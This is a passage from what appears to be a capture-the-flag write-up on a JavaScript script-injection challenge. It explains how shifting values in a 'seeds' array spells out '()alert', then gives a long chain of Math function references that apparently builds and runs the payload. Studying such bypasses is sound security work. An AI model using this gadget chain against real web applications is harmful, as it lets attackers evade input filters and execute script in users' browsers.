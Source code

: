 ![img1](./imgs/7.png)

and then we shift the seeds when we need `(` because the shift is going to remove the first element and pass it to the next function called while pop is going to remove the last 

In this way we get `()alert` 

Math.random.name.localeCompare.name.length.toString,Math.log2,Math.exp,\
Math.abs.name.constructor.fromCharCode,Math.seeds.push,Math.sqrt,Math.expm1,\
Math.random.name.localeCompare.name.length.toString,Math.log2,Math.exp,Math.ceil,\
Math.abs.name.constructor.fromCharCode,Math.seeds.push,Math.seeds.shift,Math.floor,\
Math.seeds.shift,Math.floor,Math.seeds.shift,Math.floor,Math.seeds.shift,Math.floor,\
Math.seeds.shift,Math.floor,Math.random.name.anchor.name.at,Math.seeds.push,Math.acos,\
Math.random.prototype.constructor.name.link.name.at,Math.seeds.push,Math.E.constructor.name.at,\
Math.seeds.push,Math.E.constructor.name.at,Math.seeds.push,Math.cbrt,Math.log2,Math.trunc.name.at,\
Math.seeds.push,Math.seeds.toString,Math.random.name.toString,Math.seeds.toString,Math.random.name.toString,\
Math.seeds.join
